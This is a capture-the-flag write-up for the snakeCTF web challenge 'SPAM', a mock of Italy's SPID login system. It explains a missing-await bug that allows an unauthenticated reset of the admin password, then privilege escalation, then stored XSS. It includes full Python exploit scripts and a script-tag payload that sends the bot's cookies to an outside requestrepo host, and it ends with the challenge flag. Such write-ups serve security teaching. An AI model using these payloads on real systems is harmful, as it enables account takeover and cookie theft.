




# [Web] SPAM
**Final Solves**: 30



---

## Solution

When launching the challenge, we're greeted by yet another JavaScript-based web server, this time mimicking the italian authentication system **SPID**. <br/>
It's possible to sign up with the central Identity Provider (IDP), then you can use that account to log into the other available services.




By taking a quick look at the login flow, one detail immediately stands out: the "**Forgot Password?**" feature. It might look harmless, but since this is a CTF challenge, it's worth digging deeper into its implementation.

```javascript
  } else if (req.method === "PATCH") {
    const { token, newPassword } = req.body;
    if (!token || !newPassword) {
      return res.status(400).json({ error: "Token and new password are required" });
    }

    const tokenData = db.get("SELECT * FROM PasswordResetTokens WHERE token = ?", token);

    if (!tokenData) {
      return res.status(400).json({ error: "Invalid or expired token" });
    }
    const tokenUser = await getUserFromId(db, tokenData.userId);

    if (!tokenUser) {
      return res.status(400).json({ error: "Invalid user for the provided token" });
    }

    if (tokenData.used) {
      return res.status(400).json({ error: "This token has already been used" });
    }

    const now = new Date();
    if (new Date(tokenData.expiresAt) < now) {
      return res.status(400).json({ error: "This token has expired" });
    }
    
    if (!validatePassword(newPassword)) {
      return res.status(400).json({ error: "Password must be at least 8 characters long and contain at least one number and one special character and one capital letter" });
    }

    const hashedPassword = await bcrypt.hash(newPassword, 10);

    await db.run("UPDATE Users SET password = ? WHERE id = ?", hashedPassword, tokenUser.id);
    await db.run("UPDATE PasswordResetTokens SET used = ? WHERE token = ?", true, token);

    return res.status(200).json({ message: "Password has been successfully reset." });
  }
```

We can immediately spot a problem: `db.get(...)` is an **asynchronous** function, so without `await`, `tokenData` ends up being just a **Promise Object**. In JavaScript, a Promise is always truthy, which means the subsequent checks don't behave as intended. <br/>
The other main issue is the `getUserFromId` implementation:

```JavaScript
export async function getUserFromId(db, id) {
    return db.get("SELECT * FROM Users WHERE id = ?", id || 0);
};
```

Since `tokenData.userId` is **never resolved** (because `tokenData` is a promise), it passes `undefined` into `getUserFromId`. With the `id || 0` fallback, the query defaults to `id = 0` that, based on the setup.js file corresponds to the **admin account**.

```sql
INSERT OR IGNORE INTO Users (id, email, password, firstName, lastName, groupId)
VALUES (0, 'admin@spam.gov.it', '', 'Admin', 'User', 2);
```

As a result, `(!tokenUser)` is useless, as `getUserFromId` always returns the admin and `tokenData.used` and `tokenData.expiresAt` evaluate to `undefined`. **All of the validations silently fail**, and every reset request ends up targeting the admin user, without checking the validity of the token. <br/>
Effectively, any reset request with any token ends up resetting the admin's password:

```python
import requests  
  
baseurl = "https://bee0074947cfd48ea43b971be78dd8c7.spam.challs.snakectf.org/"  
  
resp = requests.post(baseurl+'api/auth/forgot', json={"email": "a@a.com"})  
print(resp.text)  

resp = requests.patch(baseurl+'api/auth/forgot', json={"token": "a@a.com", "newPassword": "Ab!c2daed"})  
print(resp.text) 
```

We can now log in as **admin** using the credentials we set. However, the flag is still out of reach. <br/>
Inspecting the source code reveals that the flag is stored in the cookies of a Puppeteer bot, which only visits the services for health checks (while logged in as admin). To steal it, we need to find an XSS vector. <br/>

While the four default services all used ExpressJS's built-in sanitization, there was **a fifth, hidden service**: `test` with `id = 0`.  

```javascript
app.get('/data', async (req, res) => {
    const sessionId = req.cookies.sessionId;
    if (!sessionId || !sessions.has(sessionId)) {
        return res.status(401).send('Unauthorized');
    }

    const userData = sessions.get(sessionId);
    if (!userData) {
        return res.status(404).send('User not found');
    }
    if (new Date(userData.expiry * 1000) < new Date()) {
        sessions.delete(sessionId);
        return res.redirect('/');
    }

    const data = await fetchUserData(userData.token);
    res.send(JSON.stringify(data, null, 2));
});
```

Unlike the others, this service had another major problem: The user data was rendered with the **wrong content type** (`text/html` instead of `application/json`) and **without any type of sanitization**. This makes it a perfect place to inject our payload.


At this point, my focus shifted to **modifying the username**. Initially, I tried the "Update User" action in `/api/actions`. However, the implementation was broken and the action didn't work as intended at all. <br/>

I then changed approach and examined the `/api/internal/sync` endpoint. A quick review showed that it was **restricted to users with the "System" group permission**. So the question became: how could I escalate my privileges to access it?

```JavaScript
if (userData.groupName !== "System") {
    return res.status(403).json({ error: "You do not have permission to perform this action" });
}
```

Fortunately, while exploring `/api/actions`, I noticed the `assignGroup` action. It allowed me, as an admin, to **upgrade myself to any group**, so I chose the System one (`groupId = 0`).

```python
resp = s.post(baseurl+'api/actions',  
            headers={'Authorization': 'Bearer ' + authcookie},  
            json={  
                "action": "assignGroup",  
                "params": {  
                    "userId": 0,  
                    "groupId": 0  
                }  
            }  
)  
  
print(resp.text)
```

With System Permissions, I could finally access `/api/internal/sync` and **inject my payload**.

```python
resp = s.post(baseurl+'api/internal/sync?id=0',  
            headers={'Authorization': 'Bearer ' + externalauthcookie},  
            json={  
                "firstName": "<script>fetch('https://4eqpm59h.requestrepo.com/?cookie=' + encodeURIComponent(document.cookie));</script>"  
            }  
)

print(resp.text)
```

The final step was to **trigger the XSS** by invoking the "**healthCheck**" action, which made the Puppeteer bot visit the service and execute my injected script, ultimately stealing the admin's cookies.

```python
resp = s.post(baseurl+'api/actions',  
            headers={'Authorization': 'Bearer '+authcookie},  
            json={  
                "action": "healthCheck",  
                "params": {  
                    "platform": 0  
                }  
            }  
)

print(resp.text)
```

**Final script**:
```python
import requests  
  
baseurl = "https://6ec666e296a9c4ad8793f52daf601970.spam.challs.snakectf.org/"  

# Auth Exploit
requests.post(baseurl+'api/auth/forgot', json={"email": "a@a.com"})
requests.patch(baseurl+'api/auth/forgot', json={"token": "a@a.com", "newPassword": "Ab!c2daed"})
  
s = requests.Session()
resp = s.post(baseurl+'api/auth/signin', json={'email': 'admin@spam.gov.it', 'password': 'Ab!c2daed'})  
authcookie = resp.text  

# Privilege Escalation
s.post(baseurl+'api/actions',  
                  headers={'Authorization': 'Bearer '+authcookie},  
                  json={  
                      "action": "assignGroup",  
                      "params": {  
                          "userId": 0,  
                          "groupId": 0  
                      }  
                  }  
)  

# XSS
resp = s.get(baseurl+'authorize?serviceId=0', cookies={'token': authcookie})  
externalauthcookie = resp.text.split('/callback?token=')[1].split('">')[0]  
s.post(baseurl+'api/internal/sync?id=0',  
                  headers={'Authorization': 'Bearer '+externalauthcookie},  
                  json={  
                      "firstName": "<script>fetch('https://4eqpm59h.requestrepo.com/?cookie=' + encodeURIComponent(document.cookie));</script>"  
                  }  
)
  
# Invoking the bot
resp = s.post(baseurl+'api/actions',  
                  headers={'Authorization': 'Bearer '+authcookie},  
                  json={  
                      "action": "healthCheck",  
                      "params": {  
                          "platform": 0  
                      }  
                  }  
)  

```

**Finally, we will retrieve the flag from our webhook**:
**`snakeCTF{42m_3ur0s_w3ll_sp3nt_0n_s3cur1ty_49371192efa913d5}`**
